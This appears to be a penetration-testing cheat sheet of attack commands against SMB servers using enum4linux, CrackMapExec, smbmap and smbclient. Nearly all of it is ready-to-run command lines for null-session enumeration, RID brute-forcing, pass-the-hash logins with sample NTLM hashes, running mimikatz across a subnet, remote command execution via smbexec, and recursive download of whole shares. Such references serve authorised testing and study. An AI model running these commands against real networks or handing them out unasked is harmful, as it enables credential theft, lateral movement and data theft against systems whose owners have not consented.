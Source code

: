 #### `enum4linux`
Wrapper around smb programs like `rpcclient` to automate enumerating an SMB server. Produces tons of results when a null session is successful. NOTE: Make sure to downgrade rpcclient before using.
```sh
enum4linux -a 192.168.1.23
enum4linux -u 'guest' -p '' -a 192.168.1.23
```

#### `CrackMapExec`
Works perfectly, list shares and permissions, enum users, disks, code execute and run modules like mimikatz. Hashes work.
```sh
crackmapexec -u 'guest' -p '' --shares 192.168.1.23
crackmapexec -u 'guest' -p '' --rid-brute 4000 192.168.1.23
crackmapexec -u 'guest' -p '' --users 192.168.1.23
crackmapexec smb 192.168.1.0/24 -u Administrator -p P@ssw0rd
crackmapexec smb 192.168.1.0/24 -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B -M mimikatz 192.168.1.0/24
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B -x whoami 192.168.1.23
crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B --exec-method smbexec -x whoami 192.168.1.23 # reliable pth code execution
```

#### `smbmap`
Works well for listing and downloading files, and listing shares and permissions. Hashes work. Code execution don't work.
```sh
smbmap -u '' -p '' -H 192.168.1.23 # similar to crackmapexec --shares
smbmap -u guest -p '' -H 192.168.1.23
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23 -r # list top level dir
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23 -R # list everything recursively
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23 -s wwwroot -R -A '.*' # download everything recursively in the wwwroot share to /usr/share/smbmap. great when smbclient doesnt work
smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23 -x whoami # no work
```

#### `smbclient`
Access SMB shares interactively, seems to work with anonymous access. Hashes don't work.
```sh
smbclient //192.168.1.23/wwwroot
smbclient //192.168.1.23/C$ WIN20082017 -U Administrator
smbclient //192.168.1.23/C$ A433F6C2B0D8BB92D7288ECFFACFC7CD -U Administrator --pw-nt-hash # make sure to only use the NT portion of the hash
```
